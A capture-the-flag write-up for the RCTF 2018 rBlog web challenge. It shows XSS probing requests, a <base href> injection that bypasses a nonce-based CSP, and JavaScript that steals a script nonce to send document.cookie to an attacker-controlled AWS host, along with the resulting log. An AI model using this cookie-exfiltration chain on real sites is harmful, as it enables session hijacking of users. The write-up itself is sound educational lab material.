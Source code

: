 # rBlog 2018 - Web

## Problem

get `document.cookie`

http://rblog.2018.teamrois.cn

Then on the URL:

rBlog 2018

Title: [input]

Content: [textarea]

Style: [dropdown]

Image: [file-selector]

About rBlog 2018

Store your secrets here but don't do evil things

Report Abuse

Report to admin who is using latest version of Chrome Stable

Report: /blog.php [input]


## Tools Used

- https://csp-evaluator.withgoogle.com/
- Amazon Web Services
- Burp Suite (optional)



## Solution

The description makes it obvious this is an XSS attack. However, this proved to be quite ingenious really enjoyable, so unless you solved this, I hope you will learn something from this article.

Start off by observing the context. We have a form where we can submit blog posts. Posts consist of a picture, a title, some content and the style of the page.

Start off by observing how the form works. Intercept the request in burpsuite and repeat it an XSS payload in to all fields to see how things behave. (For this challenge you don't need burpsuite, just wanted to bypass some annoying possible frontend validations). Sample:

```
POST / HTTP/1.1
Host: rblog.2018.teamrois.cn
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://rblog.2018.teamrois.cn/
Content-Type: multipart/form-data; boundary=---------------------------9429957898579749681538093471
Content-Length: 631
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="title"

<script>alert(0);</script>
-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="content"

<script>alert(0);</script>
-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="effect"

<script>alert(0);</script>
-----------------------------9429957898579749681538093471
Content-Disposition: form-data; name="image"; filename=""
Content-Type: application/octet-stream


-----------------------------9429957898579749681538093471--
```

Follow the redirect in the response, inspect the page. Bingo: title is not properly escaped. However, the script does not execute. Getting this error instead: `Refused to execute inline script because it violates the following Content Security Policy directive: "script-src 'nonce-a716e2b3d6aa62c5c44e2bd90047f1f9'". Either the 'unsafe-inline' keyword, a hash ('sha256-d3ii1Pel57UO62xosCMNgTaZJhJa87Gd/X6e7UdlEU8='), or a nonce ('nonce-...') is required to enable inline execution.`

There is a [CSP](https://en.wikipedia.org/wiki/Content_Security_Policy) in place, obvious from the response header `Content-Security-Policy: default-src 'none'; script-src 'nonce-db072321d0fa2546c1472c3b9aa0030c'; frame-src https://www.google.com/recaptcha/; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src fonts.gstatic.com; img-src 'self'`

Formatting the response header nicer:

```makefile
Content-Security-Policy:
    default-src 'none';
    script-src 'nonce-db072321d0fa2546c1472c3b9aa0030c';
    frame-src https://www.google.com/recaptcha/;
    style-src 'self' 'unsafe-inline' fonts.googleapis.com;
    font-src fonts.gstatic.com;
    img-src 'self'
```

Now we need to bypass that. Google wrote a tool to test your CSP. You can find it here https://csp-evaluator.withgoogle.com/. You can either give it the CSP itself, or the link to extract. Paste the above and we get the following result.

![CSP](img/csp.png)

So script-src is missing, but that will not help, because the admin is using the latest version of Chrome Stable (written on the challenge page). We will need to use base-uri. This allows us to redirect anything that does not have the base set. Looking through the response, I see this

```html
<script nonce="a716e2b3d6aa62c5c44e2bd90047f1f9" src="/assets/js/jquery.min.js"></script>
```

Bingo, I just need to create something like that in the wild served from a public IP / DNS. There are many ways of doing that, AWS being the most obvious, but I went for github pages and I created an organization called `aicioara-gh-pages`, a repository called `assets` and inside the file `/js/jquery.min.js` with the payload `alert(0);` and I turned on GitHub pages from settings. This created the following public url `https://aicioara-gh-pages.github.io/assets/js/jquery.min.js`. This is great if you need an HTTPS resource out there. For this challenge it was not the case, so I should have gone with AWS.


Once I have that I want to make a blog post with the following title:

```
<base href = "https://aicioara-gh-pages.github.io" />
```

Following the redirect, I get the alert. Now I have arbitrary code execution. Now I need to steal the cookie. Unfortunately the code execution I have is not so arbitrary. Changing the payload in my version of jquery.min.js to something like

```js
var payload = document.cookie;
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "http://example.com?" + payload, true);
xhttp.send();
```

Will not work. AJAX is blocked by the CSP. We need to make a `GET` request in some other way (think loading an external stylesheet, video, script, etc). The only action allowed is having a `<script>` with the correct nonce. Fortunately this is something we can do. All scripts on the page have a nonce, so we can steal one. We have arbitrary code execution, so we can read the nonce from any `<script>` tag, then create a new `<script>` tag, ask it to fetch its content from a location controlled by us, and add the payload as parameter. The payload in `/js/jquery.min.js` then becomes:

```js
var payload = document.cookie;
var nonce = document.querySelector("script").nonce;

var src = `http://ec2-54-152-84-87.compute-1.amazonaws.com/?${payload}`

var s = document.createElement('script')
s.type = 'text/javascript'
s.src = src
s.setAttribute('nonce', nonce)

document.body.appendChild(s);
```

On the AWS side of things, I just created a new EC2 VM, opened up port 80 and ran `python -m "SimpleHTTPServer" 80`. Submitted the URL for the post (the one with the `<base>` injection) to the admin and waited.

On AWS I get

```
115.159.200.107 - - [19/May/2018 17:53:52] "GET /?flag=RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012};%20hint_for_rBlog_Rev.2=http://rblog.2018.teamrois.cn/blog.php/52c533a30d8129ee4915191c57965ef4c7718e6d
```

**Flag: RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012}**
